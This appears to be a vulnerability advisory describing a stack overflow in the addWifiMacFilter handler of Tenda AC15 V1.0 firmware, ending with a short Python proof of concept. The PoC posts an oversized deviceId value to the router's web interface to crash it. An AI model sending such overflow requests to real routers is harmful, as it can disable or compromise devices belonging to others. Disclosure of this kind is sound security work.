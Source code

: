 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v9` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v9` can trigger this security vulnerability.

![image-20240306161153603](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306161153603.png)

![image-20240314153409617](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314153409617.png)

![image-20240306161213302](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306161213302.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": 1, "deviceId":payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314153436574](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314153436574.png)
